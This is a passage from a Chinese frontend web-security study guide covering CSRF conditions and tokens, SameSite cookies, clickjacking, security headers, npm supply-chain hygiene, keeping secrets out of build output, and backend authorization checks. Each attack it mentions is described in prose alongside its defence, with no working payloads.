| 条件 4 | CSRF Token、校验 `Origin` |
| 条件 2 | 自定义请求头（会触发预检，跨站带不上） |
| 危害控制 | 关键操作二次验证 |

`fetch` 其实也**能**发起跨站请求，只是带自定义头时会先预检，而预检需要服务端授权。所以「要求带 `X-Requested-With` 之类的自定义头」在过去是一种有效防御——但依赖的是「服务端不授权预检」，不是浏览器不发送。

> **面试**：常问「CSRF 成立要哪几个条件？」答：用户有登录态、请求能跨站发起、浏览器自动带 Cookie、服务端只看 Cookie 判断身份，断掉任意一条就失败。

### 3.9 SameSite 的实际行为

| 值 | 顶层导航 GET | 顶层导航 POST | iframe / fetch |
|---|---|---|---|
| `Strict` | 不带 | 不带 | 不带 |
| `Lax` | **带** | 不带 | 不带 |
| `None` | 带 | 带 | 带（需 `Secure`） |

`Lax` 是 Chrome 80 之后的默认值（未显式声明时）。它挡住了「自动提交表单」这一类攻击，这也是很多老系统升级浏览器后 CSRF「自己好了」的原因。

两个边界：

- **`Lax` 不拦顶层 GET 导航**。所以「用 GET 执行删除」依然是可利用的。写操作必须用 POST/PUT/DELETE。
- **新建 Cookie 有短暂例外**：Chrome 对「两分钟内新建的、未声明 SameSite 的 Cookie」在顶层跨站 POST 上会放行（`Lax-allowing-unsafe`）。**不能依赖这个行为做防御**，明确写 `SameSite=Lax` 即可避免。

`SameSite=None` 必须配 `Secure`，否则浏览器直接丢弃这个 Cookie，而且**不报错**。

### 3.10 CSRF Token 的三种放置

| 方案 | Token 存哪 | 前端怎么带 | 特点 |
|---|---|---|---|
| 同步令牌 | 服务端 session | 渲染进页面隐藏域或 meta | 传统、可靠，依赖 session |
| 双提交 Cookie | 非 HttpOnly Cookie | 读出放请求头 | 前后端分离常用，**怕 XSS** |
| 加密令牌 | 服务端签发、绑定会话 | 请求头 | 无状态、可校验，实现复杂 |

双提交最流行，因为前端不用等模板渲染：

```typescript
// 服务端下发 XSRF-TOKEN（非 HttpOnly），前端读出后放请求头
function csrfToken(): string {
  const m = document.cookie.match(/(?:^|;\s*)XSRF-TOKEN=([^;]*)/);
  return m ? decodeURIComponent(m[1]) : '';
}

http.interceptors.request.use((cfg) => {
  const m = cfg.method?.toUpperCase();
  if (m && ['POST', 'PUT', 'PATCH', 'DELETE'].includes(m)) {
    cfg.headers['X-XSRF-TOKEN'] = csrfToken();
  }
  return cfg;
});
```

它的安全性有一个隐含前提：**攻击者读不到这个 Cookie**。而跨站页面确实读不到（同源策略），所以它能防 CSRF；但**站点一旦有 XSS，脚本能读，这套就失效**。这就是「先防 XSS，再防 CSRF」的原因。

> **面试**：常问「双提交 Cookie 为什么怕 XSS？」答：Token 存在非 HttpOnly Cookie 里，脚本能读出来，防 CSRF 的隐含前提就没了。

### 3.11 点击劫持与嵌入控制

攻击方式是把目标站点放进一个透明 iframe，覆盖在诱导性内容上。用户以为点的是「领取奖励」，实际点的是 iframe 里的「确认转账」。

| 手段 | 值 | 兼容性 | 说明 |
|---|---|---|---|
| `X-Frame-Options` | `DENY` / `SAMEORIGIN` | 老浏览器也认 | 只能整域，不能列多个来源 |
| `frame-ancestors` | `'none'` / `'self'` / 域名列表 | 现代浏览器 | 更灵活，**优先** |

两者同时下发时，支持 CSP 的浏览器以 `frame-ancestors` 为准。`X-Frame-Options` 的 `ALLOW-FROM` 已被现代浏览器放弃，要放开多个来源只能写 `frame-ancestors`。JS 的 frame busting（`if (top !== self) top.location = ...`）已经不可靠：`sandbox` 属性可以禁掉脚本，拦截也容易被绕过。

顺带一个同族问题：`window.open` 打开的外部页面可以通过 `window.opener` 把原页面导航到钓鱼站。防御是 `rel="noopener"`，或者在 `window.open` 后立刻 `opener = null`。

### 3.12 安全响应头的组合

| 头 | 作用 | 典型值 | 注意 |
|---|---|---|---|
| `Content-Security-Policy` | 限制资源来源与执行 | 按需白名单 | 配错会白屏 |
| `X-Content-Type-Options` | 禁止 MIME 嗅探 | `nosniff` | 必须配合正确的 `Content-Type` |
| `Referrer-Policy` | 控制 Referer 信息量 | `strict-origin-when-cross-origin` | 影响第三方统计 |
| `Strict-Transport-Security` | 强制后续走 HTTPS | `max-age=31536000` | 不可逆，先在测试域验证 |
| `Permissions-Policy` | 禁用不需要的浏览器能力 | `camera=(), microphone=()` | 用到的功能别误禁 |
| `X-Frame-Options` | 防嵌入 | `DENY` | 与 `frame-ancestors` 并存 |

`nosniff` 的作用值得单独说：没有它，浏览器在部分上下文会忽略声明的 `Content-Type` 去嗅探内容，把本该当文本处理的响应按 HTML 执行（老浏览器尤其明显）。上传文件、用户可控内容的接口尤其需要它，**并且服务端要给出正确的 `Content-Type`**——`nosniff` 只禁止猜，不负责纠正错误的声明；拿不准的附件统一加 `Content-Disposition: attachment` 更稳。

`HSTS` 是不可逆的：一旦浏览器记住了 `max-age`，在到期前访问 http 会被本地直接改成 https，证书出问题也进不去。上线前先确认全站（含子域，如果加了 `includeSubDomains`）都有证书。

### 3.13 依赖供应链的风险面

| 风险 | 机制 | 处置 |
|---|---|---|
| 抢注相似包名 | 打错一个字就装到恶意包 | 装之前核对包名、下载量、仓库地址 |
| 维护者账号被盗 | 正常包发恶意版本 | 锁版本 + 审查 diff + 延迟升级 |
| 恶意 `postinstall` | 安装时执行任意命令 | `ignore-scripts=true`（按团队评估） |
| 传递依赖漏洞 | 你没直接用，但它在树里 | 定期 `npm audit`，用 `overrides` 钉版本 |

```bash
npm ci                     # 严格按 lock 安装，CI 必须用它
npm ls <包名>              # 看是谁把它引进来的
npm audit --omit=dev       # 只看会进产物的依赖
```

`package-lock.json` 必须提交。它记录的是**完整依赖树与完整性哈希**，没有它，`npm install` 每次解析出的树可能不同——「本地能跑、CI 挂了」一半来自这里，供应链攻击的窗口也来自这里。

### 3.14 前端密钥与构建产物

**打包产物是完全公开的**。任何人打开 DevTools 就能读到全部 JS，`.map` 存在时还能读到源码。因此：

| 内容 | 能否进前端 | 原因 |
|---|---|---|
| 接口基地址 | 可以 | 本来就会被看到 |
| 第三方 API 的公开 client_id | 视情况 | 通常配合来源白名单限制 |
| 服务端 API 密钥 | **不行** | 扒走就能冒用你的额度 |
| 云存储 AccessKey | **不行** | 可直接读写你的桶 |
| 数据库连接串 | **不行** | 直连数据库 |
| 加密密钥 | **不行** | 前端加密等于没有加密 |

Vite 的规则很直白：代码里引用到的 `VITE_` 变量，会在构建时被**静态替换进产物**，不是运行时读取。

```bash
# .env.production
VITE_API_BASE_URL=https://api.example.com   # 会公开，没关系
VITE_OSS_SECRET=LTAI...                     # 会公开，事故
```

需要密钥的操作一律绕到后端：前端带用户身份调自己的接口，后端用自己的密钥调第三方。

Source Map 同理。要保留线上错误堆栈，就用 `build.sourcemap: 'hidden'`（生成但不写 `sourceMappingURL` 注释），把 map 上传到监控平台，**不要随静态目录发布**。

### 3.15 前端权限与后端校验的边界



前端的所有权限手段——路由守卫、按钮显隐、菜单过滤——都只是**体验层**。它们让正常用户看不到不该看的东西，但挡不住任何一个会按 F12 的人。

后端校验要做到「每个入口都过一遍」：不仅校验「登录了没有」，还要校验「这个资源属不属于你」。**只校验角色不校验归属**是越权漏洞最常见的形态：普通用户 A 拿着 `/api/orders/123` 就能读到 B 的订单，因为接口只检查了「是登录用户」。

前端校验同理：它负责即时反馈（格式、必填、两次密码一致），后端校验负责正确性与安全性。**两者不是二选一，是两层。**

---

## 四、冷门知识汇总

| 知识点 | 为什么冷门 | 用到时的关键词 |
|---|---|---|
| Trusted Types | 要改造所有 DOM 写入点，全量落地成本高；但可以先开 Report-Only 观察 | `require-trusted-types-for 'script'`、`trustedTypes.createPolicy` |
| SRI 子资源完整性 | 只在从第三方 CDN 加载脚本时才需要 | `integrity="sha384-..."`、`crossorigin` |
| COOP / COEP | 只为启用跨源隔离能力 | `Cross-Origin-Opener-Policy`、`SharedArrayBuffer` |
| CORP | 资源被别的站引用出问题才查 | `Cross-Origin-Resource-Policy` |
| `sandbox` iframe 属性 | 嵌入第三方内容时才会配 | `sandbox="allow-scripts"`、不要与 `allow-same-origin` 同开 |
| SVG 上传 XSS | SVG 是 XML，能带脚本，图片校验常只看后缀 | 服务端转码为位图、`Content-Disposition` |
| 开放重定向 | `?redirect=` 白名单缺失，被用来做钓鱼跳板 | `redirect_uri` 白名单、只允许相对路径 |
| `postMessage` 来源校验 | 忘写 `targetOrigin` 或忘校验 `event.origin` | `postMessage(data, origin)`、`event.origin` |
| `X-XSS-Protection` | 现代浏览器已移除这项检查，老 IE/Chrome 的过滤器本身还能被利用 | 显式设 `0`，或干脆不下发 |
| Source Map 泄露 | 只有排查线上报错或被人抓包时才想起来 | `build.sourcemap: 'hidden'`、`sourceMappingURL` |
| `Sec-Fetch-Site` | 作为 CSRF 的补充信号，用的人少 | `Sec-Fetch-Site: same-origin`、`cross-site` |
| CSP 的 `strict-dynamic` | 与 nonce 配合的动态加载方案，理解成本高 | `'strict-dynamic'` |
| `base-uri` 攻击 | 一个 `<base>` 标签能改掉全站相对路径 | `base-uri 'self'` |
| 子域接管 | 废弃子域被注册，Cookie 作用域被利用 | `Domain=.example.com`、DNS 巡检 |
| `__Host-` / `__Secure-` 前缀 | 只在强安全要求下使用 | `__Host-sid`（必须 Secure、Path=/、无 Domain） |
| CSS 注入 | 用户可控样式能做 UI 伪装，也能用属性选择器逐字符外泄 | `style-src`、属性选择器、避免拼接 CSS |
| JSON 劫持 | 只影响把顶层数组当脚本执行的老浏览器，属历史问题 | `)]}',` 前缀、返回对象而非数组 |
| 字符集劫持 | 未声明 charset 时，历史上可用 UTF-7 之类的编码绕过转义；现代浏览器已不支持 UTF-7，但显式声明仍是基线 | `Content-Type: text/html; charset=utf-8` |
| `Origin: null` | sandbox iframe、`file://` 页面发出的请求带 `null`，源码里直接 `includes('null')` 就漏了 | 拒绝 `Origin: null`，不要用字符串包含判断 |
| DNS 预取泄露 | 页面里的域名会被预解析，暴露内网主机名 | `X-DNS-Prefetch-Control: off` |
